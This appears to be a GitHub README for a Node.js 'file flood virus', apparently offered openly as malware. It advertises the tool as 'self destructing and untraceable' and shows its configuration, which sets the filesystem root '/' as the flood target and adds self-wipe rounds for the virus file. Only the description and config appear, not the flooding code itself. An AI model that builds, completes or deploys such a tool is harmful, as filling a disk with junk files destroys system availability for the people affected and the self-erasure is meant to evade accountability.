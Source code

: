 # nodejs-virus-non-resident-file-flooder
#### non-resident file flood virus

* multi cluster support
* multiple async threads per cluster
* self destructing and untraceable

```js
const config = {
  dest: '/', // file flood base path
  clusters: 1, // clusters
  threads: 1, // async threads per cluster
  pad_size: 1024, // random data pad size max
  file: {
    max_file_size: 512, // random data file size max (cannot exceed pad)
    max_name_size: 16, // random filename max length
    ext: ['', 'txt', 'css'] // random file extensions
  },
  alpha: 'abcdefghijklmnopqrstuvwxyz', // random filename alphabet (uppercase added automatically)
  special: '1234567890', // random filename special chars/numbers
  wipe: {
    rounds: 10, // virus file wipe random data write rounds
    delay: 3000 // virus file wipe delay
  }
}

```
